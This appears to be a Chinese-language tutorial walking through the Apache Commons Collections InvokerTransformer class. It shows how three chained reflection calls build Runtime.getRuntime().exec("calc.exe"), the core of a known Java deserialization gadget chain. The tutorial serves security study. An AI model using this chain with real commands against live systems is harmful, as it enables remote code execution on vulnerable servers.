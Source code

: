 

## InvokerTransformer 通过反射创建新的对象实例

```
public InvokerTransformer(final String methodName, final Class<?>[] paramTypes, final Object[] args) {
    super();
    iMethodName = methodName; //要进行反射的对象
    iParamTypes = paramTypes != null ? paramTypes.clone() : null; //调用的方法名称以及参数类型
    iArgs = args != null ? args.clone() : null;//对应的方法参数
}

public O transform(final Object input) {//通过反射创建一个新的对象实例
    
    final Class<?> cls = input.getClass();//获取到传进来的input对象值，就是Runtime对象
    final Method method = cls.getMethod(iMethodName, iParamTypes);//Method方法对象的名字以及函数的参数
    return (O) method.invoke(input, iArgs);//将获取的方法和参数进行执行
}
```

```
InvokerTransformer tran = new InvokerTransformer( "getMethod", new Class[]{
            String.class, Class[].class}, new Object[]{
            "getRuntime", null} );
System.out.println( tran.transform( Runtime.class ).toString() );
//输出：public static java.lang.Runtime
//第一个参数是传进来的getMethod方法，
//第二个参数是getMethod方法的参数列表（String.class, Class[].class）
//第三个参数是需要反射的方法其执行的参数列表，这里就是getRuntime方法，以及参数null。
```

​	理解了一下InvokerTranformer类之后就是构造反射链的过程了。

```
((Runtime)Runtime.class.getMethod( "getRuntime", null) .invoke( null, null )).exec( "cal.exe" );
//构造 Runtime.getRuntime().exec("calc.exe") 的过程
InvokerTransformer tran = new InvokerTransformer( "getMethod", new Class[]{
    String.class, Class[].class}, new Object[]{"getRuntime", null} );
    
//获得反射的GetRuntime()方法
Method method = (Method) tran.transform( Runtime.class );
//java.lang.Runtime.getRuntime()输出的是一个类

//invoke反射过程，将GetRuntime反射成对象，只有对象才能调用exec函数。
InvokerTransformer tran2 = new InvokerTransformer( "invoke", new Class[]{
    Object.class, Object[].class }, new Object[]{null, null} );
//获得Runtime的对象
Runtime run = (Runtime) tran2.transform( method );

//进行exec("calc.exe")的构造
InvokerTransformer tran3 = new InvokerTransformer( "exec", new Class[]{
    String.class}, new Object[]{"calc.exe"} );
tran3.transform( run );
```
